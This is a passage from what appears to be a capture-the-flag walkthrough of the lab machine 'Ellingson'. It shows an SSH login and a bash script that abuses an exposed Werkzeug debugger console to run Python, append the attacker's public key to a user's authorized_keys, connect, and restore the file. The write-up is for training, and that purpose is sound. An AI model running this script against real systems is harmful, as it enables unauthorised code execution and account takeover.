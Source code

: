 Now I can ssh in using the matching private key:

```

root@kali# ssh -i ~/id_rsa_generated hal@10.10.10.139
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-46-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jun  2 13:35:06 UTC 2019

  System load:  0.92               Processes:            101
  Usage of /:   23.5% of 19.56GB   Users logged in:      0
  Memory usage: 13%                IP address for ens33: 10.10.10.139
  Swap usage:   0%
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

163 packages can be updated.
80 updates are security updates.

Last login: Sun Mar 10 21:36:56 2019 from 192.168.1.211
hal@ellingson:~$ 

```

### Script It

I checked out the requests that the debugger sends in Burp and determined how I could send the same commands via a script. The following script will get a shell as hal by adding my public key to the `authorized_keys` file, connecting with ssh, and then removing that entry from the `authorized_keys` file.

```

#!/bin/bash

KEY=/root/id_rsa_generated
PUB_KEY=$(cat $KEY.pub)
TARGET_PATH=/home/hal/.ssh/authorized_keys

SECRET=$(curl -s 'http://10.10.10.139/articles/4'| grep SECRET | cut -d'"' -f2)
FRAME=$(curl -s 'http://10.10.10.139/articles/4'| grep 'id="frame' | head -1 | cut -d- -f2 | cut -d'"' -f1)
echo "[+] Got frame and secret from debug page"

function run_cmd {
    curl -s -G -X GET "http://10.10.10.139/articles/4?__debugger__=yes&frm=$FRAME&s=$SECRET" --data-urlencode "cmd=$1" -x 127.0.0.1:8080 | grep -v ">>>" > /dev/null
}

echo "[*] Copying ${TARGET_PATH} to ${TARGET_PATH}.bak"
run_cmd "import shutil"
run_cmd "shutil.copyfile(\"${TARGET_PATH}\", \"${TARGET_PATH}.bak\")"
echo "[*] Writing $key.pub to $TARGET_PATH"
run_cmd "f=open(\"${TARGET_PATH}\", 'a')"
run_cmd "f.write(\"\n${PUB_KEY}\")"
run_cmd "f.close()"

echo "[*] Connecting to ellingson as hal"
echo "[*] Should reset $TARGET_PATH to original"
ssh -t -i /root/id_rsa_generated hal@10.10.10.139 "mv ${TARGET_PATH}.bak ${TARGET_PATH}; bash"

```